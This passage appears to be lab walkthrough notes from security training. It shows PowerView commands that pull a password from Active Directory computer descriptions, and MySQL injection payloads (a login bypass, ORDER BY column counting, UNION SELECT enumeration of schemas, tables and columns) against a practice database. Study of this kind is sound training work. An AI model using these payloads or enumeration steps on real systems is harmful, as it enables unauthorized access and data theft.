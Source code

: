 *Result:* Flag

---

*Command:* Get-DomainComputer | Select-Object name,description | Where {$_.description -ne $null}

*Result:* Password

---

*Command:* Get-DomainGroup -Identity "Citrix AdminS"

*Result:* Name of the manager


## SQL Injection Fundamentals

*Command:* Login bypass, source PayloadAllThethings
- ' or 1=1 limit 1 -- -+

*Result:* Logged in

---

*Command:* Identify how manu columns 
- A'ORDER BY 5-- -

*Result:* Five columns

---

*Command:* Identify databases
- A'UNION SELECT 1,SCHEMA_NAME,@@version,4,5 FROM INFORMATION_SCHEMA.SCHEMATA-- -

*Result:* ilfreight, backup

---

*Command:* Current databases
- A'UNION SELECT 1,user(),@@version,4,5-- -
  
*Result:* ilfreight

---

*Command:* Tables at ilfreight + backup
- A'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ilfreight'-- -
- A'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='backup'-- -
- 
*Result:* users, payment + admin_bk

---

*Command:* Columns at admin_bk
- A'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.columns WHERE table_schema='backup'-- -
